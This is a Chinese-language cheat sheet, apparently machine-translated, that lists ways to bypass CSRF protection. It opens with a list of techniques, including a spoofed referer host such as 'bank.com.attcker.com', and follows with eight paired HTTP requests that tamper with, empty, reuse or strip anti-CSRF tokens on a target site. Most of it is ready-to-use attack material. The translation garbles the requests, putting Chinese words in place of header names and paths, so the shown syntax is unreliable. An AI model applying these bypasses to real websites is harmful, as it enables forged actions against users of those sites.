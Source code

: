 > -更改请求方法[POST=>GET]  
-移除令牌，并提供一个空参数  
-通过删除请求并使用该令牌来复制未使用的有效令牌  
-使用自己的CSRF令牌将其提供给受害者  
-将值替换为具有相同长度的标记的值 
-对令牌进行反向工程  
-通过HTML注入提取令牌 
-从非格式“Content Type:application/json”或“Content Type:application/x-url-encoded”切换到“Content Type:Form multipart” 
-绕过正则表达式  
-如果网站正在寻找“bank.com“在referer URL中，也许”bank.com.attcker.com“或”http://www.com/bank.cn.com”将起作用。
> -删除referer头（将此<meta name=“referer”content=“no referer”>添加到有效负载或html代码中）

＃绕过CSRF令牌   

1.更改单个字符
```
POST /注册HTTP / 1.1
主持人：target.com
[...]

用户名= dapos＆password = 123456＆token = aaaaaaaaaaaaaaaaaaaaaaaa
```
试试这个绕过
```
POST /注册HTTP / 1.1
Host：target.com
[...]

用户名= dapos＆password = 123456＆token = aaaaaaaaaaaaaaaaaaaaaaab
```

2.发送空值的令牌
```
POST /注册HTTP / 1.1
Host：target.com
[...]

用户名= dapos＆password = 123456＆token = aaaaaaaaaaaaaaaaaaaaaaaa
```
试试这个绕过
```
POST /注册HTTP / 1.1
Host：target.com
[...]

用户名= dapos＆password = 123456＆token =
```

3.用相同长度的令牌替换
```
POST /注册HTTP / 1.1
Host：target.com
[...]

用户名= dapos＆password = 123456＆token = aaaaaa
```
试试这个绕过
```
POST /注册HTTP / 1.1
Host：target.com
[...]

用户名= dapos＆password = 123456＆token = aaabaa
```
4.更改POST / GET方法
```
POST /注册HTTP / 1.1
Host：target.com
[...]

用户名= dapos＆password = 123456＆token = aaaaaaaaaaaaaaaaaaaaaaaa
```
试试这个绕过
```
GET / register？username = dapos＆password = 123456＆token = aaaaaaaaaaaaaaaaaaaaaaaa HTTP / 1.1
Host：target.com
[...]
```

5.从请求中删除令牌
```
POST /注册HTTP / 1.1
Host：target.com
[...]

用户名= dapos＆password = 123456＆token = aaaaaaaaaaaaaaaaaaaaaaaa
```
试试这个绕过
```
POST /注册HTTP / 1.1
Host：target.com
[...]

用户名= dapos＆password = 123456
```

6.使用其他用户的有效令牌
```
POST /注册HTTP / 1.1
Host：target.com
[...]

用户名= dapos＆password = 123456＆token = ANOTHER_VALID_TOKEN
```

7.尝试解密哈希
```
POST /注册HTTP / 1.1
Host：target.com
[...]

用户名= dapos＆password = 123456＆token = MTIzNDU2
```
MTIzNDU2 => 123456使用base64

8.有时反CSRF令牌由两部分组成，其中一个保持静态，而另一个则动态
```
POST /注册HTTP / 1.1
Host：target.com
[...]

用户名= dapos＆password = 123456＆token = vi802jg9f8akd9j123
```
当我们再次注册时，这样的请求
```
POST /注册HTTP / 1.1
Host：target.com
[...]

用户名= dapos＆password = 123456＆token = vi802jg9f8akd9j124
```
如果您注意到令牌的“ vi802jg9f8akd9j”部分保持不变，则只需要发送静态部分即可

